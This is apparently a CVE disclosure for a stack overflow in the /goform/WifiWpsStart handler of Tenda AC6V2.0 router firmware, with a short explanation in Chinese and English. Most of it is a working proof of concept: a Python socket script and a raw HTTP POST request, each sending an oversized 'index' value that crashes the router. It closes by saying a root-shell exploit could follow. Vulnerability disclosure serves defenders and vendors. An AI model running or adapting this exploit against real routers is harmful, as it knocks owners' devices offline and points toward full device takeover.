

# CVE-2025-70252 漏洞信息

## 基础信息
- **CVE编号**: CVE-2025-70252
- **影响组件**: /goform/WifiWpsStart
- **固件版本**: Tenda AC6V2.0 V15.03.06.23_multi

## 漏洞详情



/goform/WifiWpsStart，The index and mode are controllable. If the conditions are met to sprintf, they will be spliced into tmp. It is worth noting that there is no size check,which leads to a stack overflow vulnerability.

index=>tmp=>sprintf

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x3000
p2 = b'mode=1&index=' + p1

p3 = b"POST /goform/WifiWpsStart" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=lvktgb" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

POC HTTP Request:

```
POST /goform/WifiWpsStart HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

index=wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww
```

You can see the router crash, and finally we can write an exp to get a root shell
